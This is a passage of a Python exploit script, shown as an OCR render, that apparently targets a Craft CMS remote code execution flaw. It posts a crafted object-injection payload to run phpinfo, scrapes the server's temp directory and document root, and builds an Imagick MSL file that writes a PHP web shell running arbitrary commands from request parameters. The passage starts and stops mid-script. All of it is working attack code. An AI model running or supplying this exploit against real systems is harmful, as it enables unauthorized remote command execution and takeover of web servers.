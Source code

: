 ```python
    exit()

HOST = sys.argv[1]

if not re.match('^https?://.*', HOST):
    print("\033[1;31m[-]\033[0m URL should start with http or https")
    exit()

print("\033[1;96m[+]\033[0m Executing phpinfo to extract some config infos")

## Execute phpinfo() and extract config info from the website
url = HOST + '/index.php'
content_type = {'Content-Type': 'application/x-www-form-urlencoded'}

data = r'action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}],"_fn_close":"phpinfo"}}'

try:
    r = requests.post(url, headers=content_type, data=data)
except:
    print(f"\033[1;31m[-]\033[0m Could not connect to {HOST}")
    exit()

# If we succeed, we should have default phpinfo credits 
if not 'PHP Group' in r.text:
	print(f'\033[1;31m[-]\033[0m {HOST} is not exploitable.')
	exit()


# Extract config value for tmp_dir and document_root
pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'

tmp_dir       = re.search(pattern1, r.text, re.DOTALL).group(1)
document_root = re.search(pattern2, r.text, re.DOTALL).group(1)


if 'no value' in tmp_dir:
	tmp_dir = '/tmp'

print(f'temporary directory: {tmp_dir}')
print(f'web server root: {document_root}')

## Create shell.php in tmp_dir

data = {
    "action": "conditions/render",
    "configObject[class]": "craft\elements\conditions\ElementCondition",
    "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
}

files = {
    "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
    <write filename="info:DOCUMENTROOT/shell.php"/>
    </image>""".replace("DOCUMENTROOT", document_root), "text/plain")
}

```